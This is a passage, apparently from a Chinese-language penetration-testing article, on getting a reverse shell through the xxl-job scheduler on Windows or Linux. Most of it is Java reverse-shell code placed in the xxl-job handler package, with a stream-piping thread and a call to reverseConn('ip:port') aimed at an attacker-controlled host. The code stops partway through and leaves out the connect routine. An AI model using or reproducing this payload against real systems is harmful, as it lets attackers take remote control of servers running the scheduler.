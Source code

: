 却不知有时 xxl-job 也可以跑在 Windows 下。这时候就可以去执行 Powerhshell 命令去上线。当然如果比较懒的话可以直接执行 java 代码来上线。无论 Windows 和 linux 都可以反弹 shell。

```plain
package com.xxl.job.service.handler;

import java.io.BufferedReader;
import java.io.BufferedWriter;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.io.OutputStreamWriter;
import java.net.Socket;

public class reverse {
    class StreamConnector
    extends Thread
    {
        InputStream hx;
        OutputStream il;

        StreamConnector(InputStream hx, OutputStream il)
        {
            this.hx = hx;
            this.il = il;
        }

        public void run()
        {
            BufferedReader ar = null;
            BufferedWriter slm = null;
            try
                {
                    ar = new BufferedReader(new InputStreamReader(this.hx));
                    slm = new BufferedWriter(new OutputStreamWriter(this.il));
                    char[] buffer = new char[8192];
                    int length;
                    while ((length = ar.read(buffer, 0, buffer.length)) > 0)
                    {
                        slm.write(buffer, 0, length);
                        slm.flush();
                    }
                }
            catch (Exception localException) {}
            try
                {
                    if (ar != null) {
                        ar.close();
                    }
                    if (slm != null) {
                        slm.close();
                    }
                }
            catch (Exception localException1) {}
        }
    }
    public reverse()
    {
        reverseConn("ip:port");
    }

    public static void main(String[] args) 
    {
        System.out.println("0");
```